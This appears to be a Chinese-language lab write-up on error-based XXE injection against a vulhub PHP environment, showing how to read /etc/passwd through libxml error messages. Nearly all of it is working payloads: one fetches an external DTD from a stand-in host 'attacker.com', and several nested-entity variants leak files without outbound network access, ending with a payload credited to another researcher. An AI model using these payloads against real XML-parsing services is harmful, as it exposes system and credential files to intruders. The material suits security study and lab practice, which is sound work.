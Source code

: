 ## 报错XXE

环境:
- https://github.com/vulhub/vulhub/tree/master/php/php_xxe
- libxml<=2.8(2.9以后默认不使用外部实体)
- 开启了报错
- 无回显

XXE攻击中一般有引入外部实体进行攻击。
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```
ext.dtd
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
可以攻击成功。
但是如果目标无法连接外部网络时。如何进行攻击呢？


如果我们把`<!ENTITY %......dtd">%ext;`的内容替换为ext.dtd的内容。有以下：
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
	%eval;
	%error;
]>
<message></message>
```
可以得到报错：` PEReferences forbidden in internal subset in Entity`
问题出在`file`前面的`%`，我们把%替换成`&#x25`有
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % eval "
		<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/&#x25;file;'
		>
	">
%eval;
%error;
]>
<message></message>
```
报错` DOMDocument::loadXML(): Invalid URI: file:///nonexistent/%file; in Entity, line: 1 in <b>/var/www/html/dom.php`
我们发现`%file`,那如果把`eval`实体再嵌套再一个内部实体不就可以执行了嘛。
如下：
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % a '
		<!ENTITY &#x25; b "
			<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;
			>
		">
	'>
%a;
%b;
]>
<message>asfddasfd</message>
```

phit0on师傅在其小密圈中的payload:
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % condition '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
    %condition;
]>
<message>any text</message>
```